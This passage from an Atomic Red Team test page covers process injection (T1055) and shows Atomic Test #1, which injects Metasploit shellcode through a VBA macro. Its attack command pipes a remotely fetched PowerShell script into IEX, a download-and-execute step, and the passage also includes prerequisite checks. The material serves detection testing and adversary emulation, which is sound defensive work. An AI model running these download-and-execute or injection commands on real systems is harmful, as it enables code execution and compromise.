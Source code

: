 - [Atomic Test #11 - Process Injection with Go using CreateThread WinAPI](#atomic-test-11---process-injection-with-go-using-createthread-winapi)

- [Atomic Test #12 - Process Injection with Go using CreateThread WinAPI (Natively)](#atomic-test-12---process-injection-with-go-using-createthread-winapi-natively)


<br/>

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| txt_path | Path to file containing VBA macro to run | path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055-macrocode.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```
##### Description: "#{txt_path}" must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "#{txt_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
```
